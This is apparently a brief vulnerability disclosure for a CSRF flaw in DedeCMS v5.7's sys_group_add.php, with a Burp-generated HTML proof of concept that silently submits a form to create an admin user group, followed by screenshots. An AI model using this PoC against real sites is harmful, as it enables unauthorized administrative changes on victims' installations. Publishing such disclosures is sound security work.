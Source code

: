 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/sys_group_add.php
![1](https://github.com/Hckwzh/cms/assets/128144400/ea53482d-c978-40e2-8c72-2cecfee7faa3)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/sys_group_add.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="groupname" value="cs" />
      <input type="hidden" name="rankid" value="" />
      <input type="hidden" name="imageField&#46;x" value="21" />
      <input type="hidden" name="imageField&#46;y" value="8" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![2](https://github.com/Hckwzh/cms/assets/128144400/d001308d-d7a1-45ba-ad56-8f2c57172c05)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/d7b7d235-6486-4015-bfc2-fce41f0b5126)
